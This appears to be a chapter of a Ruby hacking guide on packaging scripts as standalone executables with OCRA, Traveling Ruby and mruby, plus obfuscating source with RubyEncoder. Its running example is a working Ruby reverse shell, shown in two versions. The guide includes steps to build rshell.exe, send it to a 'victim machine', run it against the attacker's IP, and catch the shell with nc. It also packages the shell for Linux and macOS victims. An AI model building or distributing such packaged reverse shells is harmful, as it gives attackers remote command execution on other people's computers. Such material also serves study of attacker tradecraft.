

Module 0x2 | System Kung Fu
Packaging
Many questions about building a standalone application that doesn't require Ruby to be pre-installed on the system. Of-course, due attacking machine you cant grantee that ruby is installed on the target system. So here we will demonstrate some ways to do that.
One-Click Ruby Application(OCRA) Builder
OCRA (One-Click Ruby Application) builds Windows executables from Ruby source code. The executable is a self-extracting, self-running executable that contains the Ruby interpreter, your source code and any additionally needed ruby libraries or DLL.
It's Windows support only, not really ;)
Features
- LZMA Compression (optional, default on)
- Ruby 1.8.7, 1.9.3, 2.0.0 and 2.1.5 support
- Both windowed/console mode supported
- Includes gems based on usage, or from a Bundler Gemfile
To install OCRA
gem install ocra
So all what to need is to have your application.
Suppose we have the following script, a reverse shell of course ;)
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
exit
end
ip, port = ARGV
s = TCPSocket.new(ip,port)
while cmd = s.gets
IO.popen(cmd,"r"){|io|s.print io.read}
end
from our Windows Attacker machine cmd.exe
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
Results
C:\Users\admin\Desktop>ocra rshell.rb --windows --console
=== Loading script to check dependencies
ruby C:/Users/admin/Desktop/rshell.rb.rb [HACKER_IP HACKER_PORT]
=== Attempting to trigger autoload of Gem::ConfigFile
=== Attempting to trigger autoload of Gem::DependencyList
=== Attempting to trigger autoload of Gem::DependencyResolver
=== Attempting to trigger autoload of Gem::Installer
=== Attempting to trigger autoload of Gem::RequestSet
=== Attempting to trigger autoload of Gem::Source
=== Attempting to trigger autoload of Gem::SourceList
=== Attempting to trigger autoload of Gem::SpecFetcher
=== Attempting to trigger autoload of CGI::HtmlExtension
=== Detected gem ocra-1.3.5 (loaded, files)
=== 6 files, 191333 bytes
=== Detected gem io-console-0.4.3 (loaded, files)
=== WARNING: Gem io-console-0.4.3 root folder was not found, skipping
=== Including 53 encoding support files (3424768 bytes, use --no-enc to exclude)
=== Building rshell.exe
=== Adding user-supplied source files
=== Adding ruby executable ruby.exe
=== Adding detected DLL C:/Ruby22/bin/zlib1.dll
=== Adding detected DLL C:/Ruby22/bin/LIBEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/SSLEAY32.dll
=== Adding detected DLL C:/Ruby22/bin/libffi-6.dll
=== Adding library files
=== Compressing 10622666 bytes
=== Finished building rshell.exe (2756229 bytes)
In the same directory, you'll find an exe file rshell.exe. Send it on the windows victim machine which doesn't have ruby installed and run it.
rshell.exe 192.168.0.14 9911
from our attacking machine we already listening on 9911
nc -lvp 9911

Traveling-ruby
From official site1 "Traveling Ruby is a project which supplies self-contained, "portable" Ruby binaries: Ruby binaries that can run on any Linux distribution and any OS X machine. It also has Windows support (with some caveats). This allows Ruby app developers to bundle these binaries with their Ruby app, so that they can distribute a single package to end users, without needing end users to first install Ruby or gems."
Note: The following script has been taken from the official docs.
Preparation
mkdir rshell
cd rshell
- Create your application -in our case, reverse shell- in "rshell" folder
rshell.rb
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV.size < 2
puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
exit 0
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
- Test it
ruby rshell.rb
# => ruby rshell.rb.rb [HACKER_IP HACKER_PORT]
Creating package directories
The next step is to prepare packages for all the target platforms, by creating a directory each platform, and by copying your app into each directory. (Assuming that your application could differ from OS to another)
mkdir -p rshell-1.0.0-linux-x86/lib/app
cp rshell.rb rshell-1.0.0-linux-x86/lib/app/
mkdir -p rshell-1.0.0-linux-x86_64/lib/app
cp rshell.rb rshell-1.0.0-linux-x86_64/lib/app/
mkdir -p rshell-1.0.0-osx/lib/app/
cp rshell.rb rshell-1.0.0-osx/lib/app/
Next, create a packaging directory and download Traveling Ruby binaries for each platform into that directory. Then extract these binaries into each packaging directory. You can find a list of binaries at the Traveling Ruby Amazon S3 bucket. For faster download times, use the CloudFront domain "http://d6r77u77i8pq3.cloudfront.net". In this tutorial we're extracting version 20141215-2.1.5.
mkdir packaging
cd packaging
wget -c http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz
wget -c http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz
wget -c http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-20141215-2.1.5-osx.tar.gz
cd ..
mkdir rshell-1.0.0-linux-x86/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86.tar.gz -C rshell-1.0.0-linux-x86/lib/ruby
mkdir rshell-1.0.0-linux-x86_64/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-linux-x86_64.tar.gz -C rshell-1.0.0-linux-x86_64/lib/ruby
mkdir rshell-1.0.0-osx/lib/ruby && tar -xzf packaging/traveling-ruby-20141215-2.1.5-osx.tar.gz -C rshell-1.0.0-osx/lib/ruby
Now, each package directory will have Ruby binaries included. It looks like this: Your directory structure will now look like this:
rshell/
|
+-- rshell.rb
|
+-- rshell-linux86/
| |
| +-- lib/
| +-- app/
| | |
| | +-- rshell.rb
| |
| +-- ruby/
| |
| +-- bin/
| | |
| | +-- ruby
| | +-- ...
| +-- ...
|
+-- rshell-linux86_64/
| |
| ...
|
+-- rshell-osx/
|
...
Quick sanity testing
Let's do a basic sanity test by running your app with a bundled Ruby interpreter. Suppose that you are developing on OS X. Run this:
cd rshell-osx
./lib/ruby/bin/ruby lib/app/rshell.rb
# => ruby rshell.rb.rb [HACKER_IP HACKER_PORT]
cd ..
Creating a wrapper script
Now that you've verified that the bundled Ruby interpreter works, you'll want create a wrapper script. After all, you don't want your users to run /path-to-your-app/lib/ruby/bin/ruby /path-to-your-app/lib/app/rshell.rb. You want them to run /path-to-your-app/rshell.
Here's what a wrapper script could look like:
#!/bin/bash
set -e
# Figure out where this script is located.
SELFDIR="`dirname \"$0\"`"
SELFDIR="`cd \"$SELFDIR\" && pwd`"
# Run the actual app using the bundled Ruby interpreter.
exec "$SELFDIR/lib/ruby/bin/ruby" "$SELFDIR/lib/app/rshell.rb"
Save this file as packaging/wrapper.sh in your project's root directory. Then you can copy it to each of your package directories and name it rshell:
chmod +x packaging/wrapper.sh
cp packaging/wrapper.sh rshell-1.0.0-linux-x86/rshell
cp packaging/wrapper.sh rshell-1.0.0-linux-x86_64/rshell
cp packaging/wrapper.sh rshell-1.0.0-osx/rshell
Finalizing packages
tar -czf rshell-1.0.0-linux-x86.tar.gz rshell-1.0.0-linux-x86
tar -czf rshell-1.0.0-linux-x86_64.tar.gz rshell-1.0.0-linux-x86_64
tar -czf rshell-1.0.0-osx.tar.gz rshell-1.0.0-osx
rm -rf rshell-1.0.0-linux-x86
rm -rf rshell-1.0.0-linux-x86_64
rm -rf rshell-1.0.0-osx
Congratulations, you have created packages using Traveling Ruby!
An x86 Linux user could now use your app like this:
- The user downloads rshell-1.0.0-linux-x86.tar.gz.
- The user extracts this file.
- The user runs your app:
/path-to/rshell-1.0.0-linux-x86/rshell
# => ruby rshell.rb.rb [HACKER_IP HACKER_PORT]
Automating the process
Going through all of the above steps on every release is a hassle, so you should automate the packaging process, for example by using Rake. Here's how the Rakefile could look like:
PACKAGE_NAME = "rshell"
VERSION = "1.0.0"
TRAVELING_RUBY_VERSION = "20150210-2.1.5"
desc "Package your app"
task :package => ['package:linux:x86', 'package:linux:x86_64', 'package:osx']
namespace :package do
namespace :linux do
desc "Package your app for Linux x86"
task :x86 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
create_package("linux-x86")
end
desc "Package your app for Linux x86_64"
task :x86_64 => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
create_package("linux-x86_64")
end
end
desc "Package your app for OS X"
task :osx => "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
create_package("osx")
end
end
file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86.tar.gz" do
download_runtime("linux-x86")
end
file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-linux-x86_64.tar.gz" do
download_runtime("linux-x86_64")
end
file "packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-osx.tar.gz" do
download_runtime("osx")
end
def create_package(target)
package_dir = "#{PACKAGE_NAME}-#{VERSION}-#{target}"
sh "rm -rf #{package_dir}"
sh "mkdir -p #{package_dir}/lib/app"
sh "cp rshell.rb #{package_dir}/lib/app/"
sh "mkdir #{package_dir}/lib/ruby"
sh "tar -xzf packaging/traveling-ruby-#{TRAVELING_RUBY_VERSION}-#{target}.tar.gz -C #{package_dir}/lib/ruby"
sh "cp packaging/wrapper.sh #{package_dir}/rshell"
if !ENV['DIR_ONLY']
sh "tar -czf #{package_dir}.tar.gz #{package_dir}"
sh "rm -rf #{package_dir}"
end
end
def download_runtime(target)
sh "cd packaging && curl -L -O --fail " +
"http://d6r77u77i8pq3.cloudfront.net/releases/traveling-ruby-#{TRAVELING_RUBY_VERSION}-#{target}.tar.gz"
end
You can then create all 3 packages by running:
rake package
You can also create a package for a specific platform by running one of:
rake package:linux:x86
rake package:linux:x86_64
rake package:osx
You can also just create package directories, without creating the .tar.gz files, by passing DIR_ONLY=1:
rake package DIR_ONLY=1
rake package:linux:x86 DIR_ONLY=1
rake package:linux:x86_64 DIR_ONLY=1
rake package:osx DIR_ONLY=1
On Victim Machine
You now have three files which you can distribute to end users.
rshell-1.0.0-linux-x86.tar.gz
rshell-1.0.0-linux-x86_64.tar.gz
rshell-1.0.0-osx.tar.gz
Suppose the end user is on Linux x86_64. S/he uses your app by downloading rshell-1.0.0-linux-x86_64.tar.gz, extracting it and running it:
wget rshell-1.0.0-linux-x86_64.tar.gz
...
tar xzf rshell-1.0.0-linux-x86_64.tar.gz
cd rshell-1.0.0-linux-x86_64
./rshell
# => ruby rshell.rb.rb [HACKER_IP HACKER_PORT]
mruby
mruby CLI2 A utility for setting up a CLI with mruby that compiles binaries to Linux, OS X, and Windows.
Prerequisites
- mruby-cli
- Docker
- Docker Compose
Developer introduction
https://www.youtube.com/watch?v=OvuZ8R4Y9xA
Close Source code
Sometimes we don't want to disclose our source code for whatever reason, but we still want to share our applications either commercially or for free. Here a commercial solution for that purpose, RubyEncoder.
RubyEncoder3 protects Ruby scripts by compiling Ruby source code into a bytecode format and this is followed by encryption. This protects your scripts from reverse engineering. Ruby scripts protected with RubyEncoder can be executed but cannot be used to extract Ruby source code as there is no source code remaining within the protected script in any form.
1. Traveling-ruby: Official website ↩
2. mruby CLI: Official website ↩
3. RubyEncoder: Official website ↩